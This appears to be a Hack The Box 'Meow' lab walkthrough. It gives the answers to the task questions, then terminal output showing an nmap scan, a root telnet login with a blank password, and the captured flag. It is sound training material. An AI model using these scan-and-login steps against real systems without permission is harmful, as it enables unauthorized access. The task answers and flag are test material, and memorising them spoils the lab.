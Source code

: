 ## Tasks

###### Task 1

What does the acronym VM stand for? 
[Virtual machine](https://en.wikipedia.org/wiki/Virtual_machine)

###### Task 2

What tool do we use to interact with the operating system in order to issue commands via the command line, such as the one to start our VPN connection? It's also known as a console or shell. 

[terminal](https://en.wikipedia.org/wiki/Terminal_emulator)

###### Task 3

What service do we use to form our VPN connection into HTB labs? 
[openvpn](https://en.wikipedia.org/wiki/OpenVPN)

###### Task 4

What tool do we use to test our connection to the target with an ICMP echo request? 
[ping](https://en.wikipedia.org/wiki/Ping_(networking_utility))
###### Task 5

What is the name of the most common tool for finding open ports on a target? 
[nmap](https://en.wikipedia.org/wiki/Nmap)

###### Task 6

What service do we identify on port 23/tcp during our scans? 
[telnet](https://en.wikipedia.org/wiki/Telnet)

###### Task 7

What username is able to log into the target over telnet with a blank password? 
[root](https://en.wikipedia.org/wiki/Superuser)


root flag

ping machine
```
[cry_baby@ace ~]$ ping 10.129.190.255
PING 10.129.190.255 (10.129.190.255) 56(84) bytes of data.
64 bytes from 10.129.190.255: icmp_seq=1 ttl=63 time=10.2 ms
64 bytes from 10.129.190.255: icmp_seq=2 ttl=63 time=10.5 ms
64 bytes from 10.129.190.255: icmp_seq=3 ttl=63 time=10.2 ms
64 bytes from 10.129.190.255: icmp_seq=4 ttl=63 time=10.3 ms
^C
--- 10.129.190.255 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3004ms
rtt min/avg/max/mdev = 10.216/10.303/10.452/0.093 ms
```
```
[cry_baby@ace ~]$ nmap -sV 10.129.190.255
Starting Nmap 7.95 ( https://nmap.org ) at 2024-08-14 21:50 EDT
Nmap scan report for 10.129.190.255
Host is up (0.010s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
23/tcp open  telnet  Linux telnetd
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 10.40 seconds
[cry_baby@ace ~]$ telnet 10.129.190.255
Trying 10.129.190.255...
Connected to 10.129.190.255.
Escape character is '^]'.


  █  █         ▐▌     ▄█▄ █          ▄▄▄▄
  █▄▄█ ▀▀█ █▀▀ ▐▌▄▀    █  █▀█ █▀█    █▌▄█ ▄▀▀▄ ▀▄▀
  █  █ █▄█ █▄▄ ▐█▀▄    █  █ █ █▄▄    █▌▄█ ▀▄▄▀ █▀█



Meow login: root
Welcome to Ubuntu 20.04.2 LTS (GNU/Linux 5.4.0-77-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 15 Aug 2024 03:19:20 AM UTC

  System load:           0.0
  Usage of /:            41.7% of 7.75GB
  Memory usage:          4%
  Swap usage:            0%
  Processes:             135
  Users logged in:       0
  IPv4 address for eth0: 10.129.190.255
  IPv6 address for eth0: dead:beef::250:56ff:feb0:9afd

 * Super-optimized for small spaces - read how we shrank the memory
   footprint of MicroK8s to make it the smallest full K8s around.

   https://ubuntu.com/blog/microk8s-memory-optimisation

75 updates can be applied immediately.
31 of these updates are standard security updates.
To see these additional updates run: apt list --upgradable


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Mon Sep  6 15:15:23 UTC 2021 from 10.10.14.18 on pts/0
root@Meow:~# ls
flag.txt  snap
root@Meow:~# cat flag.txt 
b40abdfe23665f766f9c61ecba8a4c19
root@Meow:~# 





```

















































































